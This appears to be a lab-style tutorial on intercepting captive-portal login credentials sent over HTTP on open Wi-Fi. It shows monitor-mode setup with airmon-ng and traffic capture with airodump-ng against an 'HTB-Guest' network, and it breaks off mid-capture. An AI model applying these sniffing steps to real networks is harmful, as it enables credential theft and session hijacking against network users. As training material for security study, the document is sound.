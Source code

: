 
<h1>External HTTP Credential Interception</h1>
<hr/>
<p>Many captive portals use HTTP for authentication, often combined with an open network. When the network is not using Enhanced Open, it may be possible to intercept credentials from outside the network.</p>
<hr/>
<h3>Differences in Authentication Mechanisms</h3>
<p>Captive portals transmitting login credentials over HTTP can expose them to interception. Monitoring GET and POST requests allows us to capture usernames and passwords—sometimes in plaintext, other times hashed. Captured credentials may enable session hijacking.</p>
<p>In an attempt to mitigate this, many systems implement client-side hashing or obfuscation. If HTTPS is used, we might capture requests but not the form data. In those cases, internal SSL stripping or traffic interception techniques are more effective.</p>
<hr/>
<h3>Analyzing the Network in Question</h3>
<p>To begin sniffing traffic externally, we need to enable monitor mode on our wireless interface. We can first check available interfaces with the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ iwconfig

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off
</code></pre>
<p>We can then put our wireless interface into monitor mode with the airmon-ng utility.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo airmon-ng start wlan0

PHY	Interface	Driver		Chipset

phy0	wlan0		rt2800usb	Ralink Technology, Corp. RT2870/RT3070
		(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
		(mac80211 station mode vif disabled for [phy0]wlan0)
</code></pre>
<p>With the interface now in monitor mode, we can use airodump-ng to scan for available Wi-Fi networks and gather information about nearby access points.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo airodump-ng wlan0mon

CH  1 ][ Elapsed: 0 s ][ 1234-56-78 12:34 

BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
00:9A:F2:4B:0F:91  -64   1       27        9    2   1   54   WPA2 CCMP   MGT  FakeNet
6A:48:AC:B4:EF:06  -42   1       27        9    2   1   54   OPN              HTB-Guest
</code></pre>
<hr/>
<h3>Capturing Plaintext Credentials</h3>
<p>Once we've identified the target network for sniffing, we initiate a new scan to capture the traffic. By running airodump-ng with the <code>-w credcap</code> flag, we save the captured traffic to an output file.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo airodump-ng -c 1 --bssid 6A:48:AC:B4:EF:06 wlan0mon -w credcap

CH  1 ][ Elapsed: 30 s ][ 1234-56-78 12:34 

BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

